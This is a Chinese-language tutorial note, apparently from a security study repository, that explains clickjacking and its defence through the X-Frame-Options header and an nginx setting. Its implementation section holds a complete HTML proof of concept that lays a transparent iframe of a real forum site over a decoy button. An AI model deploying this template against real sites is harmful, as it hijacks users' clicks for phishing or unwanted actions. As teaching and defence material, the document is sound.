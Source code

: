 # 点击劫持攻击

## 介绍

> 参见：[web安全之点击劫持攻击](https://www.cnblogs.com/lovesong/p/5248483.html) 

​	该攻击原理是，将一个透明的`iframe`覆盖到一个看似安全的网页上，当用户点击看见的组件时，就会点击到透明的`iframe`上的组件，用户的操作已经被劫持到攻击者事先设计好的恶意按钮或链接上，攻击者既可以通过点击劫持设计一个独立的恶意网站，执行钓鱼攻击等；也可以与 XSS 和 CSRF 攻击相结合，突破传统的防御措施，提升漏洞的危害程度。

## 实现方式

 	实现原理就是将不可见的网页放到1个`iframe`标签中，通过适当的布局调整，使可见的按钮正好与不可见的页面上的按钮重合

```html
<!DOCTYPE HTML>
<html>
<meta http-equiv="Content-Type" content="text/html; charset=gb2312" />
<head>
<title>点击劫持</title>
<style>
     html,body,iframe{
         display: block;
          height: 100%;
          width: 100%;
          margin: 0;
          padding: 0;
          border:none;
     }
     iframe{
          opacity:0;
          filter:alpha(opacity=0);
          position:absolute;
          z-index:2;
     }
     button{
          position:absolute;
          top: 315px;
          left: 462px;
          z-index: 1;
          width: 72px;
          height: 26px;
     }
</style>
</head>
     <body>
          那些不能说的秘密
          <button>查看详情</button>
          <iframe src="http://tieba.baidu.com/f?kw=%C3%C0%C5%AE"></iframe>
     </body>
</html>
```

## 防御方式

> 我们的防御，是防止其他网站将我们的网站页面变成透明的页面放到其他网站上
>
> 可以通过对所有页面设置`X-Frame-Options`响应头来防止该攻击

- `X-Frame-Options`的可取值有3个：
  - DENY：不能被嵌入到任何iframe或frame中。
  - SAMEORIGIN：页面只能被本站页面嵌入到iframe或者frame中。
  - ALLOW-FROM uri：只能被嵌入到指定域名的框架中。

- nginx配置

  ```properties
  add_header X-Frame-Options SAMEORIGIN;
  ```

  一般使用`SAMEORIGIN`即可